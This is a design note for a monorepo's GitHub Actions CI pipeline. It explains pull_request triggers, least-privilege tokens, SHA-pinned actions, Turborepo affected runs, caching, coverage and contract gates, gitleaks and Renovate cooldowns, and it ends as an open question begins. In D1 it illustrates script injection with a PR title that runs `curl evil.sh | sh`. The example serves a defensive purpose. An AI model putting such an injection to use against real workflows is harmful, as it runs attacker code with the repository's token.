



# WP-6: CI pipeline

Issue #14, branch `wp/6-ci-pipeline`, release R0, size M, tag learning. Depends on WP-3, WP-4 and WP-5 (all done, plus WP-10 and WP-12). Unblocks WP-7 (images and per-service release) and WP-51 (the API documentation check).

Deliverable (report section 14, issue #14 updated 2026-10-09): `ci.yml` with caching (pnpm store and Turborepo), affected runs per service, Postgres (pgvector) and RabbitMQ for the integration tests, event contract tests, coverage gates, gitleaks and PR title lint. Supply chain, from the 2026-10-09 audit: a security workflow (OSV-Scanner or `pnpm audit`) that gates pull requests; Renovate with grouped updates and `minimumReleaseAge` in `pnpm-workspace.yaml`; every GitHub Action pinned by commit SHA; every workflow with least-privilege `permissions:`. WP-6 also writes the ADR that supersedes ADR-026 where this WP changes it (section Decision lists the lines).

What the owner learns (decisions.json): the GitHub Actions model; why affected runs are safe.

**Out of scope, accepted at `/wp`:** the Docker build without push and Trivy (no Dockerfile exists until WP-7); `evals.yml` (WP-24, ADR-019); `release.yml` and `deploy.yml` (WP-7 and WP-9).

**What you already know, and what is new.** Affected runs and the content-addressed Turborepo cache come from WP-1 (`docs/learning/wp-1.md`, "First principles", "Affected runs", and Trace 1); the Testcontainers harness from WP-3 and WP-10 D7, moved into `packages/testing` in WP-12 step 1; the frozen-schema compatibility gate and the example fixtures from WP-5 (step 2b); commitlint and lefthook from WP-1; dependency-cruiser as a fitness function from WP-3. Until now all of that runs only on your machine, and `LEFTHOOK=0` skips it. This file spends its words on what is new: a machine you do not control runs code from a branch, with a token, on every pull request; which shortcuts are safe there; and how code you did not write (actions and npm packages) is kept from running with your permissions.

**What checking the repo found (2026-10-10).** Five facts change the plan; each is used below.
1. `pnpm verify` in a clean checkout does **not** run Biome or dependency-cruiser when a pull request touches only package files. A Turborepo dry run in a scratch clone with one line changed in `apps/api/src/modules/content/domain/knowledge-entry.ts` selected only `@jadero/api#test` and `@jadero/api#typecheck` (plus their builds). On your machine they run because the untracked `.mcp.json` at the root marks the root package as changed. In CI there is no such file (D2).
2. `scripts/check-migrations.mjs` prints a notice and passes when `origin/main` is missing, which is exactly what a default `actions/checkout` (one commit) gives. It fails open (D2).
3. Several free GitHub features are already on: secret scanning, push protection, Dependabot alerts, private vulnerability reporting; the default `GITHUB_TOKEN` permission is read-only. Dependabot **security updates** are also on, and their last run (2026-10-06) failed trying to bump `esbuild` (Q1).
4. CodeQL default setup reports `configured` with an empty language list, and its only run (2026-10-05) failed: it is on and scans nothing (Q1).
5. The `protect-main` ruleset blocks deletion and force pushes and requires a pull request with 0 approvals; it has no required status checks yet (D10).

## Decisions explained

### D1. Why `pull_request`, a read-only token and actions pinned by SHA, and not `pull_request_target`, a default token and tags?

**First, the model in five words: event, workflow, job, step, runner.**
- An **event** is something that happens on GitHub: a pull request opened, a push to `main`, a cron tick (`schedule`), a manual click (`workflow_dispatch`). It comes with a JSON payload (Trace 1, step 1).
- A **workflow** is one YAML file in `.github/workflows/`. Its `on:` lists the events that start it. One event can start several workflows at once (`ci.yml`, `security.yml`, `pr-title.yml`).
- A **job** is a unit of a workflow that runs on its own fresh machine. Jobs run in parallel unless one `needs:` another. A job's result (success, failure, skipped) is what a pull request shows as a **check**.
- A **step** is one command (`run:`) or one **action** (`uses: owner/repo@ref`) inside a job. Steps share the job's machine and files, and run in order.
- A **runner** is the machine: here a GitHub-hosted `ubuntu-latest` (Ubuntu 24.04), a fresh VM per job that is thrown away afterwards. On public repos these are free with no minute limit, 4 vCPU and 16 GB RAM, with Docker 28 and Google Chrome preinstalled (Facts checked).
- Every job gets a **`GITHUB_TOKEN`**: a short-lived token for this repository that expires when the job ends. What it may do (read code, comment on the PR, push, publish packages) is set by `permissions:`.



**Problem.** CI runs code from a branch on a machine that holds a token and possibly secrets. Three things decide how much a bad branch, or a bad action, can do with that: which event starts the run (whose code, with whose permissions), what the token may do, and whether the third-party code in `uses:` is the code you reviewed.

**Example.** A stranger forks the public repo and opens a PR that edits `apps/api/test/setup.ts` to send `$GITHUB_TOKEN` to their server. Under `pull_request` the run uses the PR's merge commit, gets no secrets and, from a fork, a read-only token: the stolen token can read a public repo, which anyone can do anyway. Under `pull_request_target` the run starts in the context of `main`, with the repository's secrets and a write token; if that workflow then checks out the PR's code and runs `pnpm install` or tests, the stranger's code runs with write access. The second danger is `uses:`: in March 2025 the attacker of `tj-actions/changed-files` (CVE-2025-30066) moved the action's existing version tags to a malicious commit that printed runner secrets into the public logs; every workflow that wrote `@v45` ran the new code on its next run without any change in its own repo (over 23,000 repositories used it).

**Decision (ADR-026, the 2026-10-09 audit).**
- **Trigger: `pull_request` for every check, never `pull_request_target`.** The run tests the merge result (`refs/pull/N/merge`, GitHub's preview of `main` plus the PR), and a fork PR gets no secrets and a read-only token. Pushes to `main` and a weekly `schedule` start the full runs (D2, Q3).
- **Token: least privilege, declared.** Every workflow sets `permissions: {}` at the top (nothing), and each job asks for what it needs, usually `contents: read`. GitHub's rule: once you list any permission, every unlisted one is `none`. The repo default is already read-only, but the declaration keeps a job safe if that default changes, tells a reviewer what each job can do, and is what OpenSSF Scorecard's Token-Permissions check reads.
- **Actions pinned by full commit SHA**, with the version as a comment: `actions/checkout@3d3c42e5aac5ba805825da76410c181273ba90b1 # v7.0.1`. A tag is a movable pointer; a 40-character SHA is the content itself, so the code cannot change under you. GitHub's own guidance says a full SHA "is currently the only way to use an action as an immutable release". The repo also has a setting that refuses unpinned actions (`sha_pinning_required`, false today); step 7 turns it on.
- **Untrusted text never goes into a shell line.** A PR title is attacker-controlled text. `run: echo "${{ github.event.pull_request.title }}"` pastes it into the script before bash runs it, so a title like `` a"; curl evil.sh | sh; " `` runs. It is passed as an environment variable instead (`env: TITLE: ...`, then `"$TITLE"`), which bash treats as data (D8).
- **`actions/checkout` with `persist-credentials: false`**, so the token is not left on disk for later steps.

**Alternatives.**
- *`pull_request_target`.* Discarded: secrets and a write token next to untrusted code; GitHub warns about it for exactly this (and about cache poisoning, D3). Wins for jobs that need to write to a fork PR but never run its code: adding a label, posting a welcome comment.
- *No `permissions:` block, trusting the repo default.* Discarded: correct today (read-only), silent if the setting flips, and invisible to a reviewer. Wins nowhere for a public repo; acceptable in a private sandbox repo with no secrets.
- *Tags (`@v7`) or exact tags (`@v7.0.1`).* Discarded: both are movable; the tj-actions attacker moved exact tags too. Wins for actions you own in your own organization, where the tag mover is you.
- *Vendoring actions (copying their code into the repo) or replacing them with plain `run:` scripts.* Discarded as a rule: more code to maintain, no update flow. Wins for tiny actions (a few lines) or in high-security pipelines; this file does it for gitleaks (Implementation choices).

**Two limits of SHA pinning to know.** First, a SHA from a fork can be addressed through the parent repo's name (forks share Git objects), so a pin can look official and point at a stranger's commit; the defense is to pin only SHAs that a release tag of the real repo points at (Renovate does that; `zizmor`'s "impostor commit" audit checks it). Second, a pin freezes bugs and fixes alike, so it needs an update flow: Renovate opens PRs that move the SHA and the comment together (D9).

**Patterns:** event-driven automation, ephemeral build environment, least privilege, trust boundary, immutable reference (pin by content hash), untrusted input handling (script injection), defense in depth.

### D2. Why affected runs on pull requests are safe, and what makes them unsafe?

**Recap from WP-1.** `turbo run test --affected` asks git which files changed between a base and `HEAD`, maps each file to the package that holds it, adds every package that depends on those (the `...` in its equivalent filter `--filter=...[main...HEAD]`), and runs the requested tasks only there, with their prerequisite builds (`^build`). The cache then skips any task whose input hash it has seen. Affected decides *which* tasks are candidates; the cache decides which of those really run.

**Problem.** Running every task on every PR wastes minutes; running only "what changed" is safe only if "what changed" is computed from everything a task actually reads. If a test reads a file Turborepo does not know about, a change to that file selects nothing and, worse, the old green result is replayed from the cache.

**Example, real, from this repo.** `packages/testing/test/images.test.ts` reads `infra/compose/compose.dev.yml` to check that the Postgres image in tests equals the one in development; `packages/messaging/test/rabbitmq-message-bus.test.ts` does the same for RabbitMQ; `packages/testing` reads `infra/compose/init/01-databases.sql` at run time for the integration tests. `infra/` is not a workspace package. In a scratch clone, a commit that only bumps the RabbitMQ image in `compose.dev.yml` selected `//#depcruise //#lint //#test:scripts` and no package test: the parity tests that exist to catch exactly that change did not run. The second gap is the root tasks: `//#lint` and `//#depcruise` belong to the root package, and in package-level mode the root package is selected only when a root file changes. A PR that adds `import ... from "../../agent/..."` inside `apps/api` would pass `pnpm verify` in CI without dependency-cruiser ever looking at it.

**Decision (ADR-001, ADR-026; the fix is this WP's).**
- **Compare against the PR's real base.** CI checks out full history (`fetch-depth: 0`) and sets `TURBO_SCM_BASE` to the payload's `pull_request.base.sha`. The checkout is the merge commit, whose first parent is that SHA, so the diff is exactly the PR.
- **Task-level affected detection.** Turn on `futureFlags.affectedUsingTaskInputs` in `turbo.json`: a task is selected when a changed file matches its declared `inputs`. The root tasks already declare `apps/**`, `packages/**` and `templates/**`, so they are selected by any package change. Tested in the clone (Facts checked): with the flag, the `knowledge-entry.ts` change selected `//#depcruise //#lint @jadero/api#test @jadero/api#typecheck`.
- **Every file a task reads outside its package is declared**, with `$TURBO_ROOT$/infra/compose/**` in the `inputs` of the tasks that read it. That puts the file into the task's hash (no stale cache hit) and, with the flag, into selection: in the clone the compose-only change then selected `@jadero/testing#test`. A unit test lists every `readFileSync` and `new URL("../../..` that leaves its package and fails when one is not declared (the same "a machine checks the rule" idea as dependency-cruiser).
- **Turborepo fails safe, and `check:migrations` is made to.** Turborepo's own fallbacks run *everything* when it cannot tell: a shallow checkout, an unresolvable inferred base (seen in the clone: a warning, then all 26 test and typecheck tasks), a lockfile it cannot compare, or a `turbo.json` change. An explicit `TURBO_SCM_BASE` that does not resolve is a hard error. `check:migrations` is the one tool that fails open; it will fail when `CI=true` and the base is missing.
- **A backstop for what affected cannot see**: Q3.



**Why it is safe once the inputs are declared.** A task's result is a function of its inputs: its package's files, its declared extra files, its environment variables listed in `env`, its dependencies' outputs, and the lockfile entries it resolves. If none of those changed, re-running it can only reproduce the same result, so skipping it loses nothing. A lockfile change selects only the packages whose resolved dependencies changed (Turborepo's `LockfileChanged` reason), and falls back to all when it cannot compare; the 2026-10-09 `esbuild` override commit (an `overrides` entry, a rule for the whole workspace) came back as `LockfileChanged` for every package.

**Alternatives.**
- *Run everything on every PR.* Discarded as the default: correct but slower, and with a warm cache it is still exposed to undeclared inputs (the hash does not change, so the cache replays green). Wins for small repos, or as the backstop (Q3).
- *Path filters in the workflow* (`on: pull_request: paths: [apps/api/**]`). Discarded: a hand-written copy of the dependency graph that drifts, and a required check whose workflow is skipped by a path filter stays "Pending" forever (D10). Wins for a workflow that is not a required check and has an obvious trigger (a docs site build on `docs/**`).
- *Nx affected, or Bazel.* Nx was discarded in ADR-001 (more concepts); Bazel declares every input by construction (hermetic builds), which is the real fix for undeclared inputs, at a cost no repo this size pays. Bazel wins in very large polyglot monorepos.
- *Package-level affected (Turborepo's default) plus running the root tasks always.* A valid smaller change: root tasks are cache-keyed by their inputs, so running them always is cheap. Discarded in favor of the flag because the flag also fixes the `infra/` reads; it is the fallback if step 2 finds the flag misbehaves.

**Patterns:** incremental (affected) build, task graph, content-addressed memoization, declared inputs (hermeticity), fail safe versus fail open, backstop.

### D3. Why a content-addressed cache that `main` writes and pull requests only read?

**Problem.** Each job starts on an empty VM. Without a cache, every job downloads the 995 package versions in the lockfile and rebuilds `contracts`, `platform-nest`, `messaging` and `testing` before it can test anything. With a careless cache, a job can restore files that do not match its inputs, or a run with less trust can plant files that a run with more trust will execute.

**Example.** PR #118 changes only the content domain in `api`. Its verify job needs `@jadero/contracts#build`, whose hash `292e77cc38b76dd4` (from the real dry run) is the same as on `main`, because nothing it reads changed. If `main`'s last run saved the Turborepo cache, the job replays that build from the cache in milliseconds instead of compiling it.

**Decision (ADR-001 "CI caches `.turbo` and the pnpm store", ADR-026).**
- **Two caches, both content-addressed.** The pnpm store holds package tarballs by content hash (WP-1); its cache key is `pnpm-store-<os>-<hash of pnpm-lock.yaml>`, so a lockfile change makes a new entry. The Turborepo cache holds task outputs and logs under the task's input hash; its cache key is `turbo-<os>-<commit sha>` with the restore prefix `turbo-<os>-`, so a run takes the newest entry and Turborepo itself decides, task by task, whether the hash matches. The cache key only chooses which bundle to download; correctness comes from Turborepo's per-task hash.
- **`main` writes, pull requests read.** Runs on `main` save both caches (`actions/cache/save`); PR runs only restore (`actions/cache/restore`). GitHub already scopes a PR's saved cache to its merge ref, readable only by re-runs of that PR, so a PR cannot poison `main`'s cache; the split also keeps the 10 GB repository limit for the entries that every PR reads, instead of one stale copy per PR.
- **No remote cache (Vercel) for now.** It would need a token in CI and a third party holding build outputs; GitHub's cache is enough at this size.



**Cache poisoning, the risk to understand.** Whoever can write an entry that a more trusted run will restore can make that run execute their files: a planted `dist/` that a deploy then ships, or a planted store tarball. GitHub's scoping blocks the PR route; the open routes are a workflow that runs with `main`'s scope and untrusted code (the `pull_request_target` mistake of D1, which GitHub's docs name as a cache-poisoning vector), or a compromised dependency running during a `main` build. The same idea as WP-12's ETag: a content hash says "same content, reuse it", and it is only as good as the guarantee that the stored content really came from those inputs.

**Alternatives.**
- *No cache.* Discarded: minutes per job for nothing. Wins when builds take seconds or the cache store is not trusted at all.
- *Cache `node_modules` directly.* Discarded: pnpm's links are path-specific and break across runner images; caching the store and running `pnpm install --frozen-lockfile` is the documented way. Wins with npm on a fixed image, where restoring `node_modules` skips the install step.
- *Every run reads and writes.* Discarded for the churn on the 10 GB limit and to keep one trusted writer. Wins in a busy private repo where PR re-runs are frequent and every writer is trusted.
- *Turborepo remote cache.* Wins when several machines (laptops, CI) should share build outputs, or caches exceed 10 GB.

**Patterns:** content-addressed storage, memoization, cache key versus cache validity, single trusted writer, cache poisoning, scope isolation.

### D4. Why integration tests run on Testcontainers in CI, and not on workflow service containers? (decided by you on 2026-10-10)

**Recap.** An integration test proves what a fake cannot: real SQL, a migration file, a transaction, a broker confirm (WP-10 D7). Testcontainers starts real containers from the test code, waits until they are ready, hands back the URL and removes them at the end, a sidecar (Ryuk) cleaning up even after a crash. Since WP-12 step 1 the harness lives in `packages/testing`: one `pgvector/pgvector:0.8.7-pg18` container per run, a fresh database and an ordinary role per test file, and `messaging` adds `rabbitmq:4.3.6-management-alpine`.

**Problem.** ADR-026 says the CI integration job uses `pgvector/pgvector` and `rabbitmq` **service containers**: the workflow declares them under `services:`, GitHub starts them before the job's steps, and tests connect to `localhost:<port>`. The repo's tests do not connect to a URL from the environment; they start their own containers. Following the ADR literally means two Postgres instances per job, or a second code path in the harness for CI.

**Example.** `apps/api/test/outbox.int.test.ts` gets a fresh database and role from `createTestDatabase()`, which talks to the container that `postgres.global-setup.ts` started. With a service container, the global setup would need a branch "if `CI` use `localhost:5432`, else start a container", and the per-file database and role logic would run against a long-lived server that a previous job step may already have dirtied.

**Decision (your call during WP-12, issue #14 comment of 2026-10-10).** Integration and end-to-end tests run on Testcontainers in CI, on the runner's Docker, the same code as on your machine. Service containers would only win on a runner without Docker. This changes one line of ADR-026, so the superseding ADR records it (section Decision).

**Alternatives.**
- *Service containers.* Discarded here: duplicate infrastructure, a CI-only code path, one shared server instead of one per run. Wins when the tests cannot start containers themselves (another language's test runner, a team without Testcontainers), or the job itself runs inside a container without the Docker socket.
- *Docker Compose in a step* (`docker compose -f infra/compose/compose.dev.yml up -d --wait`, then tests against it). Discarded: the same shared-server and CI-only path problems, plus the dev data volume. Wins for end-to-end smoke tests of the whole stack together, which WP-9's staging smoke covers.
- *An external test database (a managed Postgres for CI).* Discarded: secrets in CI, shared state between runs, cost. Wins for heavy data sets that take too long to load per run.

**Patterns:** ephemeral test environment, environment parity (same harness locally and in CI), test isolation (database per test file).

### D5. Why coverage gates per package and per layer, and not one number for the repo?

**Problem.** A coverage percentage measures which lines and branches the tests executed, not whether they checked the result. One number for the whole repo hides where the gaps are: 85% overall can mean a fully tested state machine and an untested one. And today nothing gates at all: `@vitest/coverage-v8` is not installed (WP-5 and WP-12 step logs), so the thresholds in `packages/config/vitest/base.js` (80% lines, 70% branches) never run.

**Example.** In `apps/api/src/modules/content/domain/knowledge-entry.ts` the approval guard has one branch per checklist item. A change adds `if (summary.trim() === "") throw new ChecklistIncomplete(...)` without a test. The repo-wide number barely moves; the domain folder's branch coverage drops below 85% and that is the number ADR-009 cares about, because the domain holds the rules (Trace 2).

**Decision (ADR-009).** Unit-test coverage with the V8 provider, gated per package and per layer:
- `src/modules/*/domain/**` and `src/modules/*/application/**`: 90% lines, 85% branches (glob thresholds in each service's Vitest config).
- `packages/agent` and `packages/ai`: 90% lines (when they exist, WP-19 and later).
- Each package overall: 80% lines (the base), "API overall 80%".
- Adapters are covered by their contract suites, which run on the integration job; an adapter file proven only by an integration contract suite is excluded from the unit number with a comment naming the suite.
- A failed threshold fails the package's `test` task, so the `verify` check, so the merge. Each package writes `coverage/coverage-summary.json`; a small script turns them into one table in the job summary ("reported per package in CI").
- Vitest counts files under a glob threshold in the global number too (unlike Jest), so a glob raises the bar for its folder without lowering anything else.

**Why per package fits affected runs.** A package's coverage depends only on its own files and tests (and on dependency changes, which select it anyway). So gating each affected package is complete: an unaffected package's coverage cannot have changed. A repo-wide number could not be computed from an affected run at all.

**Alternatives.**
- *One repo-wide threshold.* Discarded: hides gaps and needs every package to run. Wins in a single-package repo.
- *A coverage service (Codecov, Coveralls) with "no drop on the diff" rules.* Discarded for now: a third party with a token, for a feature (diff coverage) the per-layer gates mostly cover. Wins in teams where the trend and per-PR diff comments matter more than fixed floors.
- *Mutation testing (Stryker) as the gate.* Kept as ADR-009's optional later step: it proves the tests check results, not just run lines. Wins on the domain layer once its tests are stable; too slow for every PR.

**Patterns:** quality gate, ratchet (floors that only go up), coverage versus correctness, per-component metrics.

### D6. Why event contract tests gate the pull request?

**Recap from WP-5.** Every event version has a Zod contract in `packages/contracts`, an example fixture (`fixtures/system.ping.v1.json`) and a frozen JSON Schema (`compat/system.ping.v1.json`). Within a version only a new optional field may be added (expand); anything else is a new version published next to the old one, and the old one is removed when no consumer reads it (contract). That is the expand/contract you use for message schemas at work.

**Problem.** Services deploy one at a time (ADR-025, ADR-026), so for a while an old consumer reads a new producer's messages, or the reverse. A breaking change that reaches `main` reaches a deploy.

**Example.** Someone renames `trigger` to `reason` in `system.ping.v1` and updates the fixture to match. The fixture test alone passes, because schema and fixture changed together; the frozen-schema test fails with `"trigger" was removed or renamed` and `"reason" became required` (WP-5 step 2b). Today that failure only stops a local `pnpm verify`.

**Decision (ADR-009 "contract tests between services", ADR-029 rule 4).** The tests run inside the required `verify` check: the fixture parses with its contract, the contract matches its frozen schema or only adds optional fields, the AsyncAPI document lists every event. A change to `packages/contracts` selects every dependent (`api`, `agent`, `messaging`), so their tests run too. Step 3 adds the consumer side ADR-009 names: each consumer (today `agent`'s heartbeat consumer) parses the producer's fixtures of the events it subscribes to through its own handler's schema, so a consumer that starts requiring something the producer does not send fails in `agent`, even when `packages/contracts` did not change.

**Alternatives.**
- *Pact (consumer-driven contracts with a broker).* Discarded: built for services in separate repos, with a broker storing each consumer's expectations. Wins across repositories and teams.
- *A schema registry (Confluent, Apicurio) with compatibility rules.* Discarded: one more server; the frozen schema files in git do the same check at PR time. Wins with many producers in different languages.
- *Only end-to-end tests across services.* Discarded: slow and they find the break late. Wins as a final smoke after deploy (WP-9).

**Patterns:** contract test, consumer-driven contract, schema compatibility (full compatibility within a version), expand/contract, shift left.

### D7. Why gitleaks on every pull request and over the full history?

**Problem.** A secret committed once stays in the history after a later commit deletes it, and this repo is public: anyone can clone it and read old commits. Bots scan new public commits within minutes.

**Example.** A test fixture gets a real provider key pasted in during debugging, committed on a branch, then removed in the next commit. The PR's final diff shows nothing; the branch's history still holds the key, and a squash merge keeps it in the PR's commits on GitHub.

**Decision (ADR-026).** gitleaks scans every commit of the PR (`gitleaks git --log-opts="<base>..HEAD"`), so a key added and removed inside the PR is still caught, and the whole history on pushes to `main` and weekly. Findings are redacted in the log. A finding means rotate the key first; rewriting history comes second, because the key must be treated as known the moment it was pushed.

**What it overlaps with.** GitHub secret scanning (on here, free on public repos) scans the full history and also issues, PR text and wikis, and tells the provider (for example, the AI vendor) so they can revoke the key; push protection blocks a push that contains a known secret before it reaches GitHub. gitleaks adds generic rules (high-entropy strings, private keys in any format) and a check you can run locally before pushing. Which of GitHub's features to keep next to it is Q1.

**Alternatives.**
- *Only GitHub secret scanning and push protection.* Discarded as the only layer: provider patterns only, not runnable locally. Wins in a repo where GitHub is the only gate you want to maintain.
- *TruffleHog.* Similar, with live verification of found keys against the provider. Wins when false positives are costly and you want "is this key live?".
- *A pre-commit hook only.* Discarded alone: skippable (`LEFTHOOK=0`), and it does not see what is already in history. Wins as an extra local layer.

**Patterns:** secret scanning, shift left, defense in depth, rotate before rewrite.

### D8. Why the PR title is linted, and not only the commit messages?

**Recap from WP-1.** commitlint checks `type(scope): subject` on every commit through lefthook; release-please reads the type (`feat` minor, `fix` patch, `!` major, ADR-025).

**Problem.** The repo merges by squash only, with the PR title as the commit message (checked: `squash_merge_commit_title: PR_TITLE`). The branch's commits disappear from `main`; the title is what release-please reads and what becomes the changelog line. lefthook never sees a title typed into GitHub's web form.

**Example.** A PR titled `Add withdraw endpoint` passes every commit hook (its commits were well formed) and lands on `main` as a commit release-please cannot classify: no version bump, no changelog line for `api`.

**Decision (ADR-024, ADR-025).** A `pr-title.yml` workflow runs on `pull_request` with the types `opened`, `edited`, `synchronize` and `reopened` (`edited` is not in the default set, and it is the one that fires when you fix a title), and runs the repo's own commitlint config on the title, so the same `scope-enum` and the 100-character limit apply. The title reaches the shell as an environment variable, never pasted into the script (D1).

**Alternatives.**
- *`amannn/action-semantic-pull-request`.* Discarded: a second copy of the rules (types and scopes) that would drift from `commitlint.config.mjs`. Wins in repos without a commitlint config.
- *Merge commits instead of squash.* Discarded in ADR-025's setup: every branch commit would land on `main` and feed the changelog. Wins when the branch history is curated and meaningful.
- *Lint nothing; fix titles by hand before merging.* Discarded: the one thing a machine checks reliably.

**Patterns:** single source of truth (the title is the commit), conventional commits, untrusted input handling.

### D9. Why a cooldown (`minimumReleaseAge`) and grouped Renovate updates?

**Problem.** Most recent npm attacks publish a malicious version of a real package (a stolen maintainer token, a compromised CI), and the bad version is usually found and pulled within hours to a few days. An update bot that proposes every release the minute it appears, and a developer who merges it, install it inside that window. Separately, one PR per package per release floods a solo maintainer, and floods get merged without reading.

**Example.** `pnpm/setup` published v3.1.0 and v3.1.1 today, half an hour apart. A bot without a cooldown would open a PR for v3.1.0 and then another for v3.1.1; with a three-day cooldown it opens one PR, for whatever is current on 2026-10-13, after the community has had three days to notice a problem.

**Decision (2026-10-09 audit).**
- **pnpm cooldown in `pnpm-workspace.yaml`.** Checked in the pinned pnpm 11.28.2: the default is already 1440 minutes (one day), but *soft*: when no old-enough version satisfies a range pnpm falls back to an older one, and from the bundle's code an exact pin with no mature match is let through with an entry added to `minimumReleaseAgeExclude` and an info line (**verify** with a real install). Setting `minimumReleaseAge` explicitly makes it *strict*: pnpm prompts on your machine and fails in CI. The proposal is `minimumReleaseAge: 4320` (three days), with `minimumReleaseAgeExclude` for the rare urgent fix, each with a comment saying why.
- **Renovate** (the hosted GitHub app) with `minimumReleaseAge: "3 days"` (Renovate's own `security:minimumReleaseAgeNpm` value) and `internalChecksFilter: "strict"`, so no branch exists before the cooldown ends; its default 30-minute buffer exists exactly so a companion package published later (Biome's platform binaries) has also passed pnpm's cooldown. Updates are **grouped** (one PR for non-major dev tools, one for the Nest family, one for OpenTelemetry, one for GitHub Actions digests; majors alone), on a weekly schedule, with a dependency dashboard issue. Renovate understands pnpm catalogs (checked in its source). Nothing automerges in R0: you read each PR.
- **GitHub Actions are updated the same way**, SHA and comment together. One limit from Renovate's docs: for digest-pinned actions the cooldown ages against the tag's original release date, so a tag moved to a new commit (the tj-actions attack) shows up as a digest update that has already "passed" the cooldown. The defense there is the review: an action digest update with no version change is a red flag.
- **Vulnerability fixes skip the line.** Renovate reads Dependabot alerts and opens fix PRs outside the schedule and PR limits (its docs); whether those also skip the cooldown is **verify**.

**Alternatives.**
- *Dependabot version updates.* Discarded: the audit names Renovate, and Dependabot's grouping, cooldown and pnpm catalog support were not checked for this file (**verify**); its strength is being GitHub-native with zero setup. Wins for a simple repo where native is worth more than features.
- *No bot; update by hand.* Discarded: updates stop happening, then come all at once. Wins for a repo frozen on purpose.
- *Lockfile only, never update.* Discarded: known vulnerabilities pile up. Wins for a short-lived prototype.
- *A cooldown of 0 (update on release).* Discarded: the attack window. Wins nowhere for npm today; a private registry with its own vetting is the exception.

**Patterns:** cooldown (quarantine period), batching, dependency pinning, update flow, human in the loop.

### D10. Why required status checks on the ruleset, and why a required workflow never uses path filters?

**Problem.** A check that does not block the merge is advice. And a check that blocks the merge has to report in every PR, or it blocks forever.

**Example.** `security.yml` as ADR-026 words it runs "on PRs touching lockfiles or Dockerfiles". Make its job a required check and open a PR that touches only `apps/api`: the path filter skips the whole workflow, the required check never reports, GitHub shows it as "Pending", and the PR cannot merge. A job skipped by a job-level `if:` is different: GitHub reports it as "Success", so it does not block.

**Decision (ADR-026, ADR-041).** The `protect-main` ruleset (it exists; rulesets are free on public repos) gets required status checks: `verify`, `integration`, `web`, `secrets`, `pr-title`, the vulnerability gate of Q2 and, if adopted, the checks of Q1. Every required workflow runs on every PR; work that only matters for some changes is skipped inside the job (an `if:` fed by `turbo query affected`), which reports Success. ADR-026's `security.yml` trigger changes accordingly (section Decision). Required checks use "loose" mode (the branch need not be up to date with `main`): with one author, strict mode only adds rebase clicks, and the push-to-main full run (Q3) catches the rare semantic conflict. The ruleset's allowed merge methods become squash only, matching the repo setting.

**Alternatives.**
- *Classic branch protection.* Discarded: rulesets are the newer model, readable by Scorecard with the default token, and already in use here. Wins nowhere new.
- *Strict mode (up to date with `main`).* Discarded for one author. Wins in busy repos without a merge queue.
- *Merge queue.* GitHub tests the PR on top of the latest `main` before merging (needs the `merge_group` event). Discarded at this size; availability for a repository owned by a personal account is **verify**. Wins with many PRs merging per day.

**Patterns:** quality gate, required check, path filter pitfall, skipped-means-success.

## Open questions

Three choices no ADR decides. Q1 is which free GitHub features join the pipeline; Q2 is which tool blocks a PR on a known vulnerability; Q3 is the backstop for affected runs. Q1 and Q2 interact through the dependency review action; the recommendations give one per answer.

### Q1. Which free GitHub security features, not in ADR-026, does the repo adopt?

**What you need first.** On a public repo GitHub gives several security features at no cost. Some are already on (checked through the API on 2026-10-10). Each overlaps with something in this WP; the question is which overlaps are worth a second layer.

